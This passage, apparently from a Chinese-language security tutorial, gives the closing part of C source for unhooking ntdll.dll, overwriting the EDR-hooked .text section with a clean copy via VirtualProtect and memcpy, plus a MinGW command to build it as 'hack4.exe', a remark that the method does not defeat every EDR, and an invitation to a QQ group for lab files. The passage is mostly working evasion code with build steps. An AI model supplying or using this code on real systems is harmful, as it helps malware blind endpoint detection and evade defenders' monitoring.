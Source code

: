 ```
    if (!strcmp((char*)pHookedSectionHeader->Name, (char*)".text")) {
      DWORD dwOldProtection = 0;
      lpStartingPageAddress = (LPVOID)((DWORD_PTR)lpNtdllBase + (DWORD_PTR)pHookedSectionHeader->VirtualAddress);
      dwSizeOfTheRegion = pHookedSectionHeader->Misc.VirtualSize;

      // change the protection of the memory region to allow writing
      bool bIsProtected = VirtualProtect(lpStartingPageAddress, dwSizeOfTheRegion, PAGE_EXECUTE_READWRITE, &dwOldProtection);

      // copy the contents of the .text section from the clean ntdll.dll to the infected version
      memcpy(lpStartingPageAddress, (LPVOID)((DWORD_PTR)lpNtdllMappingAddress + (DWORD_PTR)pHookedSectionHeader->VirtualAddress), pHookedSectionHeader->Misc.VirtualSize);

      // restore the original protection of the memory region
      bIsProtected = VirtualProtect(lpStartingPageAddress, dwSizeOfTheRegion, dwOldProtection, &dwOldProtection);
    }
  }

  // cleanup
  CloseHandle(hProcess);
  CloseHandle(hNtdllFile);
  CloseHandle(hNtdllMapping);
  FreeLibrary(hNtdllModule);

  return 0;
}

```  
  
编译  
```
x86_64-w64-mingw32-g++ -O2 hack4.c -o hack4.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lpsapi -w
```  
  
每个EDR使用的方法不一样，恢复内核ntdll的方式不一定适合所有EDR  
  
‍**配套实验环境和电子书加Q拉群下载**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VZNmh6ic5ume2jmTJQmbJibm5HL4ZuZJT0bnradFAnla3kFxr2XU1o9kFVTbos0go4zutJibuysORoZiafxzhgL8Zw/640?wx_fmt=jpeg "")  
  
